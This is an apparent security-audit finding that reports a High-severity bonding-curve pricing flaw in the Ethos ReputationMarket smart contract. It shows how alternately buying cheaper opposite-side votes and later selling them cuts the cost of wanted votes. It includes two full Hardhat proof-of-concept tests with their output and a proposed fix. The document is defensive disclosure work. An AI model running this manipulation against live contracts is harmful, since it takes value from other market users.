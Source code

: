 Overt Alabaster Cottonmouth

High

# Bonding curve logic can be exploited to pay less for buying votes

## Description & Impact
The [_calcVotePrice()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L920-L923) function uses the following bonding curve formula:
```js
  File: ethos/packages/contracts/contracts/ReputationMarket.sol

   912:            /**
   913:             * @notice Calculates the buy or sell price for votes based on market state
   914:@--->        * @dev Uses bonding curve formula: price = (votes * basePrice) / totalVotes
   915:             * Markets are double sided, so the price of trust and distrust votes always sum to the base price
   916:             * @param market The market state to calculate price for
   917:             * @param isPositive Whether to calculate trust (true) or distrust (false) vote price
   918:             * @return The calculated vote price
   919:             */
   920:            function _calcVotePrice(Market memory market, bool isPositive) private pure returns (uint256) {
   921:              uint256 totalVotes = market.votes[TRUST] + market.votes[DISTRUST];
   922:              return (market.votes[isPositive ? TRUST : DISTRUST] * market.basePrice) / totalVotes;
   923:            }
```
This can be manipulated in the following ways:

**_Example1:_**  ( _coded in PoC1_ )
- Normal Scenario:
    - For a default market config, Alice decides to buy some trust votes.
    - She calls `buyVotes()` with `0.1 ETH` of funds.
    - This fetches her 12 trust votes and costs exactly `0.098439322450225045 ETH`.

- Attack Scenario:
    - For a default market config, Alice decides to buy 12 trust votes.
    - She decides to alternate her `buyVotes()` call between 1 trust vote and 1 distrust vote. 
    - She repeats this 12 times.
    - She sells all her distrust votes at the end. 
    - She ends up paying `0.079440616542537061 ETH`, which is `≈ 0.02 ETH` lesser than the normal scenario.
<br>

In fact in general, if Alice wishes to buy a higher-priced vote then it works in her favour to buy the lower-priced one first to make the vote ratio 1:1. At the end, this lower-priced purchase can be sold off for a net gain. 

**_Example2:_**  ( _coded in PoC2_ )
- Normal Scenario:
    - For a default market config, Bob is sitting with 99 trust votes he bought a few moments ago.
    - Alice wants to buy 100 trust votes. She calls `buyVotes()` with `1 ETH` of funds.
    - This fetches her 100 trust votes and costs exactly `0.993452851893538135 ETH`.

- Attack Scenario:
    - For a default market config, Bob is sitting with 99 trust votes he bought a few moments ago.
    - Alice wants to buy 100 trust votes.
    - She first buys 99 distrust votes. 
    - She now buys the 100 trust votes. 
    - She then sells all her distrust votes. 
    - She ends up paying `0.711616420426520863 ETH`, which is `≈ 0.28 ETH` lesser than the normal scenario.

## Proof of Concept
<details>
<summary>
PoC1
</summary>

Add this file as `rep.bondingCurveManipulation.test.ts` inside the `ethos/packages/contracts/test/reputationMarket/` directory and run with `npm run hardhat -- test --grep "BuyVotes Cost Manipulation"` to see the output:
```js
import { loadFixture } from '@nomicfoundation/hardhat-toolbox/network-helpers.js';
import { expect } from 'chai';
import hre from 'hardhat';
import { type ReputationMarket } from '../../typechain-types/index.js';
import { createDeployer, type EthosDeployer } from '../utils/deployEthos.js';
import { type EthosUser } from '../utils/ethosUser.js';
import { DEFAULT, MarketUser } from './utils.js';

const { ethers } = hre;

describe('BuyVotes Cost Manipulation', () => {
    let deployer: EthosDeployer;
    let ethosUserA: EthosUser;
    let alice: MarketUser;
    let reputationMarket: ReputationMarket;
    let market: ReputationMarket.MarketInfoStructOutput;

    beforeEach(async () => {
        deployer = await loadFixture(createDeployer);

        if (!deployer.reputationMarket.contract) {
        throw new Error('ReputationMarket contract not found');
        }
        ethosUserA = await deployer.createUser();
        await ethosUserA.setBalance('100');

        alice = new MarketUser(ethosUserA.signer);

        reputationMarket = deployer.reputationMarket.contract;
        DEFAULT.reputationMarket = reputationMarket;
        DEFAULT.profileId = ethosUserA.profileId;
        await reputationMarket
            .connect(deployer.ADMIN)
            .setUserAllowedToCreateMarket(DEFAULT.profileId, true);
        await reputationMarket.connect(alice.signer).createMarket({ value: ethers.parseEther('0.02') });
        market = await reputationMarket.getMarket(DEFAULT.profileId);
        expect(market.profileId).to.equal(DEFAULT.profileId);
        expect(market.trustVotes).to.equal(1);
        expect(market.distrustVotes).to.equal(1);
    });

    it('Normal Buy', async () => {
        // Record initial state
        const initialMarket = await reputationMarket.getMarket(ethosUserA.profileId);
        expect(initialMarket.trustVotes).to.equal(1n);
        expect(initialMarket.distrustVotes).to.equal(1n);

        // Record Alice's balance initially
        const aliceBalanceBefore = await ethosUserA.getBalance();
        
        // Alice buys trust votes
        const aliceInvestment = ethers.parseEther('0.1');
        await alice.buyVotes({
            buyAmount: aliceInvestment,
            expectedVotes: 12n,  // We know this from simulation
            slippageBasisPoints: 0  // 0% slippage allowed
        });

        // Verify Alice's position
        const alicePosition = await alice.getVotes();
        console.log("\n");
        console.log("votes position (TRUST)    =", alicePosition.trustVotes);
        expect(alicePosition.trustVotes).to.equal(12n);
        expect(alicePosition.distrustVotes).to.equal(0n);

        // Record Alice's balance now
        const aliceBalanceAfter = await ethosUserA.getBalance();

        // Log the total cost to Alice
        console.log('Cost1:', ethers.formatEther(aliceBalanceBefore - aliceBalanceAfter), 'ETH');
    });

    it('Malicious Buy', async () => {
        // Record initial state
        const initialMarket = await reputationMarket.getMarket(ethosUserA.profileId);
        expect(initialMarket.trustVotes).to.equal(1n);
        expect(initialMarket.distrustVotes).to.equal(1n);

        // Record Alice's balance initially
        const aliceBalanceBefore = await ethosUserA.getBalance();
        
        const bP = ethers.parseEther('0.01');
        let tV = 1n;
        let dV = 1n;
        let aliceInvestment;
        for(let i = 0; i < 12; i++) {
            // Alice buys trust votes
            aliceInvestment = (tV * bP) / (tV + dV);
            await alice.buyVotes({
                isPositive: true, // trust votes
                buyAmount: aliceInvestment,
                expectedVotes: 1n,  // We know this from simulation
                slippageBasisPoints: 0  // 0% slippage allowed
            });
            expect((await alice.getVotes()).trustVotes).to.equal(tV);
            tV++;

            if (i == 11) continue; // no need to manipulate further, 12 trust votes have been bought
            // Alice buys distrust votes
            aliceInvestment = (dV * bP) / (tV + dV);
            await alice.buyVotes({
                isPositive: false, // distrust votes
                buyAmount: aliceInvestment,
                expectedVotes: 1n,  
                slippageBasisPoints: 0
            });
            expect((await alice.getVotes()).distrustVotes).to.equal(dV);
            dV++;
        }

        // Verify Alice's position
        const alicePosition = await alice.getVotes();
        console.log("\n\n");
        console.log("votes position (TRUST)    =", alicePosition.trustVotes);
        
        // Alice sells all her distrust votes
        await reputationMarket
            .connect(alice.signer)
            .sellVotes(DEFAULT.profileId, false, alicePosition.distrustVotes);
        expect((await alice.getVotes()).distrustVotes).to.equal(0);

        // Record Alice's balance now
        const aliceBalanceAfter = await ethosUserA.getBalance();

        // Log the total cost to Alice
        console.log('Cost2:', ethers.formatEther(aliceBalanceBefore - aliceBalanceAfter), 'ETH');
    });
});
```

<br>

Output:
```text
  BuyVotes Cost Manipulation


votes position (TRUST)    = 12n
Cost1: 0.098439322450225045 ETH
    ✔ Normal Buy



votes position (TRUST)    = 12n
Cost2: 0.079440616542537061 ETH
    ✔ Malicious Buy (1125ms)


  2 passing (5s)
```
</details>
<br>

<details>
<summary>
PoC2
</summary>

Add this file as `rep.bondingCurveManipulated.test.ts` inside the `ethos/packages/contracts/test/reputationMarket/` directory and run with `npm run hardhat -- test --grep "t0x1c Buy n Sell"` to see the output:
```js
import { loadFixture } from '@nomicfoundation/hardhat-toolbox/network-helpers.js';
import { expect } from 'chai';
import hre from 'hardhat';
import { type ReputationMarket } from '../../typechain-types/index.js';
import { createDeployer, type EthosDeployer } from '../utils/deployEthos.js';
import { type EthosUser } from '../utils/ethosUser.js';
import { DEFAULT, MarketUser } from './utils.js';

const { ethers } = hre;

describe('t0x1c Buy n Sell', () => {
    let deployer: EthosDeployer;
    let ethosUserA: EthosUser;
    let ethosUserB: EthosUser;
    let alice: MarketUser;
    let bob: MarketUser;
    let reputationMarket: ReputationMarket;
    let market: ReputationMarket.MarketInfoStructOutput;

    beforeEach(async () => {
        deployer = await loadFixture(createDeployer);

        if (!deployer.reputationMarket.contract) {
        throw new Error('ReputationMarket contract not found');
        }
        ethosUserA = await deployer.createUser();
        await ethosUserA.setBalance('100');
        ethosUserB = await deployer.createUser();
        await ethosUserB.setBalance('100');

        alice = new MarketUser(ethosUserA.signer);
        bob = new MarketUser(ethosUserB.signer);

        reputationMarket = deployer.reputationMarket.contract;
        DEFAULT.reputationMarket = reputationMarket;
        DEFAULT.profileId = ethosUserA.profileId;
        await reputationMarket
            .connect(deployer.ADMIN)
            .setUserAllowedToCreateMarket(DEFAULT.profileId, true);
        await reputationMarket.connect(alice.signer).createMarket({ value: ethers.parseEther('0.02') });
        market = await reputationMarket.getMarket(DEFAULT.profileId);
        expect(market.profileId).to.equal(DEFAULT.profileId);
        expect(market.trustVotes).to.equal(1);
        expect(market.distrustVotes).to.equal(1);
    });

    it('Buy and Sell - normal', async () => {
        // Record initial state
        const initialMarket = await reputationMarket.getMarket(ethosUserA.profileId);
        expect(initialMarket.trustVotes).to.equal(1n);
        expect(initialMarket.distrustVotes).to.equal(1n);

        // Bob buys 99 trust votes
        await bob.buyVotes({
            isPositive: true, // trust votes
            buyAmount: ethers.parseEther('0.95'),
            expectedVotes: 99n,  
            slippageBasisPoints: 0  // 0% slippage allowed
        });
        expect((await bob.getVotes()).trustVotes).to.equal(99);
        
        const aliceBalanceBefore = await ethosUserA.getBalance();
        // Alice buys 100 trust votes
        await alice.buyVotes({
            isPositive: true, // trust votes
            buyAmount: ethers.parseEther('1.0'),
            expectedVotes: 100n,  
            slippageBasisPoints: 0  // 0% slippage allowed
        });
        expect((await alice.getVotes()).trustVotes).to.equal(100);
        const aliceBalanceAfter = await ethosUserA.getBalance();

        // Log the total cost to Alice
        console.log('\n\nCost_1:', ethers.formatEther(aliceBalanceBefore - aliceBalanceAfter), 'ETH');
    });

    it('Buy and Sell - malicious', async () => {
        // Record initial state
        const initialMarket = await reputationMarket.getMarket(ethosUserA.profileId);
        expect(initialMarket.trustVotes).to.equal(1n);
        expect(initialMarket.distrustVotes).to.equal(1n);

        // Bob buys 99 trust votes
        await bob.buyVotes({
            isPositive: true, // trust votes
            buyAmount: ethers.parseEther('0.95'),
            expectedVotes: 99n,  
            slippageBasisPoints: 0  // 0% slippage allowed
        });
        expect((await bob.getVotes()).trustVotes).to.equal(99);

        const aliceBalanceBefore = await ethosUserA.getBalance();
        // Alice first buys 99 distrust votes
        await alice.buyVotes({
            isPositive: false, // distrust votes
            buyAmount: ethers.parseEther('0.305'),
            expectedVotes: 99n,  
            slippageBasisPoints: 0  // 0% slippage allowed
        });
        expect((await alice.getVotes()).distrustVotes).to.equal(99);
        
        // Alice then buys 100 trust votes
        await alice.buyVotes({
            isPositive: true, // trust votes
            buyAmount: ethers.parseEther('0.595'),
            expectedVotes: 100n,  
            slippageBasisPoints: 0  // 0% slippage allowed
        });
        expect((await alice.getVotes()).trustVotes).to.equal(100);

        // Alice sells all her distrust votes
        await reputationMarket
            .connect(alice.signer)
            .sellVotes(DEFAULT.profileId, false, (await alice.getVotes()).distrustVotes);
        expect((await alice.getVotes()).distrustVotes).to.equal(0);

        expect((await alice.getVotes()).trustVotes).to.equal(100);

        // Record Alice's balance now
        const aliceBalanceAfter = await ethosUserA.getBalance();

        // Log the total cost to Alice
        console.log('\n\nCost_2:', ethers.formatEther(aliceBalanceBefore - aliceBalanceAfter), 'ETH');
    });
});
```

<br>

Output:
```text
  t0x1c Buy n Sell


Cost_1: 0.993452851893538135 ETH
    ✔ Buy and Sell - normal (87ms)


Cost_2: 0.711616420426520863 ETH
    ✔ Buy and Sell - malicious (279ms)


  2 passing (5s)
```
</details>

## Mitigation 
It would be advisable to introduce a time delay between any consecutive calls to buy or sell votes by the same address. This would ensure price manipulation can't happen in the same block, thus mitigating the attack.